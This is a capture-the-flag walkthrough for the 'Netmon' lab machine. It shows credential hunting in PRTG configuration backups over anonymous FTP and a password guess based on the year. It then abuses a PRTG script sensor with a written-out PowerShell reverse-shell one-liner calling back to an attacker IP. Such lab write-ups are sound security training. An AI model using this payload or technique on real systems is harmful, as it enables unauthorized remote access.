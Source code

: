 ```yaml
---
layout: default
---
```


# Netmon

![](./01.png)

As per usual, we'll start with ```nmap```.

![](./02.png)

It looks like we have FTP, RPC, and HTTP services responding on the system.

Let's take a look at the FTP share to see what we have available.

![](./03.png)

If we dig down into the Users folder, we're able to access the user flag.  Mine kept opening blank in ```mousepad``` when opened from the share, so I copied it to my local machine and opened it.

![](./04.png)

If we further browse through the FTP share we find ```PRTG Setup Log.log``` located  in ```/Program Files (x86)/PRTG Network Monitor/```.

![](./05.png)

![](./06.png)

Looking at the contents of the file we find that the system is Windows version 10.0.14393, which is Windows 10 1607.

If we check HTTP on ports ```5985``` and ```47001```, we receive a 404.  So, being that we know HTTP is being served up, let's check port ```80``` to see if it just didn't respond to ```nmap``` for some reason.

![](./07.png)

If we look online for default credentials for PRTG Network Monitor, we find a username of "prtgadmin" with a matching password of "prtgadmin".  Let's give that whirl.

![](./08.png)

No luck there, so let's head back to the FTP share and poke around the file structure.  We already checked the PRTG Network Monitor install folder earlier, but didn't find any credentials.

So, where else does Windows install program data?  Let's check ```ProgramData```.

![](./09.png)

If we just look in the FTP share, we don't see the ```ProgramData``` folder as it's a hidden folder.  So, let's just try browsing to it manually.

![](./10.png)

Looks good, now let's dig deeper into the ```Paessler``` folder.

If we browse into the ```PRTG Network Monitor``` folder, we find a ```Configuration Auto-Backups``` folder, which contains a file called ```PRTG Configuration (Update to 18.1.37.13946).zip```.

![](./11.png)

Let's see what happens if we dig through the file.

![](./12.png)

Looks like we've found some credentials, however the password is encrypted.

Let's browse back up one directory.  If we look around we find a ```PRTG Configuration.old``` file, but this contains the same encrypted credentials.

However, if we look further, we also find a ```PRTG Configuration.old.bak``` file.

![](./13.png)

If we look through it, it has the same encrypted credentials as well, however, if we search for the dbpassword, those credentials are in plain text.

![](./14.png)

What are the chances this password will let us log in to the web console?

![](./15.png)

No such luck.  However, what if we iterate the password to another year?  The install log file we originally looked at has install dates from 2019, so let's give that a whirl.

![](./16.png)

Success!  Now that we have working credentials, lets see what we can do.

Let's add a new sensor.

![](./17.png)

We're going to create it on a new device, choosing the Windows Server group, and then specifying the loop back.

![](./18.png)

Now let's add a sensor under Device.

![](./19.png)

Next pick Custom Sensors and EXE/Script.

![](./20.png)

Let's pick "Demo Powershell Script - Returns a random integer value.ps1" for the EXE/Script and use the following as the parameters:

>```powershell
>";$client = New-Object System.Net.Sockets.TCPClient("10.10.██.█",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();"
>```

![](./21.png)

Do not click continue yet.

Let's startup a netcat listener on the port we specified above.

![](./22.png)

Now that the listener is configured, click continue on the sensor creation.

Once the sensor creates and runs itself, we should have a reverse shell.

![](./23.png)

Now let's get the root flag.

![](./24.png)